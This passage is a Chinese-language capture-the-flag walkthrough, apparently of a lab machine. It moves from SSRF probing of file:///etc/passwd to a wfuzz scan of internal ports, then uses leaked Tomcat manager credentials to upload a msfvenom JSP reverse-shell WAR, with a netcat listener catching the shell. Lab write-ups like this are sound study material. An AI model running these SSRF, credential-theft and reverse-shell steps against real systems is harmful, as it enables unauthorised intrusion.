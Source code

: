 - Trying

然后尝试ssrf，提交`file:///etc/passwd`
返回`try harder `
尝试File FIlE  ,同样的返回结果。说明目标机可能用正则表达式限制了file这个字符。

- Trying
尝试`http://localhost:60000`  返60000端口上的正常页面。
因为端口扫描那一步**客户端访问都是302重定向**，需要登陆才能访问，于是我们通过60000端口上的“搜索”功能，绕过对客户端的限制。让服务器替我们获取想要的信息。

# wfuzz
- 这是一个web扫描软件
可以用`wfuzz -h` 查看使用方式
我们使用下列参数，扫描服务器开放的端口
`wfuzz -c -z range,1-65535 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ`

图片中，2 Ch是响应的字符串，访问后发现没有任何有价值的东西，于是我们忽略它。
`wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ`
扫描后，我们得到了非2 Ch的响应结果。
看到了很多端口信息，因为**客户端nmap扫描是远程访问**，有 防火墙等等，所以在这里会得到更加详细的（在远程扫描不到的）端口信息。
-  trying
一个一个访问这些开放了的端口，`http://10.10.10.55:60000/url.php?path=http://localhost:端口`
在888端口，找到了一个备份页面backup。

- Trying

`http://10.10.10.55:60000/url.php?path=http://localhost:888/?doc=backup`

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-25-07/7.PNG)

得到了可能是tomcat配置文件中的用户名密码。

（有一个小技巧，在端口扫描那一步，得到了不能访问的文件名，可以用ssrf去访问，来获取敏感文件。）

我们用这个口令登陆端口扫描那一步获得的地址`manager/html`


#### **获取shell**
刚刚通过ssrf获取敏感文件，从而突破防线，接下来，我们要获取一个shell。

因为主页面上有上传功能，提示：
```
deploy directory or WAR file located on server.
war file to deploy 
select war file to upload.
```
暗示了我们可以上传一个war类型的反弹shell。
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=1234 -f war > ippsec.war

`War——web归档文件，war文件用于封装web模块。web模块可以代表一个独立的web应用程序。`

- Trying

成功上传——本地nc监听80端口`nc -lnvp 1234`——浏览器访问payload地址，即可获得一个shell。

- shell中运行
 